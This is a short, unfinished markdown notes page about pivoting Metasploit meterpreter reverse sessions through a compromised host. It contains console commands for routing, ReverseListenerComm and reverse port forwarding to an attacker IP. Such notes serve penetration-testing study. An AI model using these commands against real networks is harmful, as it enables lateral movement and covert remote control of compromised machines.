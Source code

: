 # P2P Callback Shells

TODO: Fill this info and demonstrate how it works from the reference link below

Make the meterpreter connections act as p2p (peer-to-peer) without the need of SMB pipe meterpreter payloads even if it's not windows at all. ReverseListenerComm will tunnel our meterpreter sessions

```
msf > route add <subnet> <netmask> <session_ID>

msf > set ReverseListenerComm <session_ID>

msf > set LHOST <compromised_target_IP_from_session_ID>

msf > run
```

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

---
## References

- [Matthew Toussain: Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)